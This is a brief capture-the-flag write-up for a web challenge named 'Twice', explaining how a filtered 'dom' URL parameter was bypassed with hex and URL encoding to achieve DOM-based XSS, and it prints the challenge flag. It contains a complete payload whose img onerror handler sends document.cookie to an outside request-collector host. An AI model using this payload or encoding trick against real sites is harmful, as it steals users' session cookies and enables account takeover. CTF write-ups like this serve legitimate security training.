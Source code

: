 ## Twice
### STAGE: JÚLIO NEVES

There's a comment in the page's body: `<!-- /?dom -->`. This URL parameter suggests a DOM-XSS

This parameter is filtered. I can't use `<, >, ", ',  etc.`. 
However, encoding with hex values and URL encoding, the filter is bypassed.
Ex.: `<` becomes `%5Cx3c` and `"` becomes `%5Cx22` (`%5C` = `\`)

A possible payload is: `http://159.65.249.122:4117/?dom=%5Cx3cimg%20src%3D1%20onerror%3Dfetch%28%5Cx22https%3A%2F%2Fenlnhxt5mcmg.x.pipedream.net%2F%3Fq%3D%5Cx22%2Bdocument.cookie%29%20%2F%5Cx3e`
where the dom paramenter is `<img src=1 onerror=fetch(\"https://enlnhxt5mcmg.x.pipedream.net/?q="+document.cookie) />`.

Acessing "our" server, we see the admin's request to it with its cookie! 

*** Flag: HACKAFLAG{Tw1c3_0r_d0ubl3_1ts_th3_s4m3_th1ng} ***


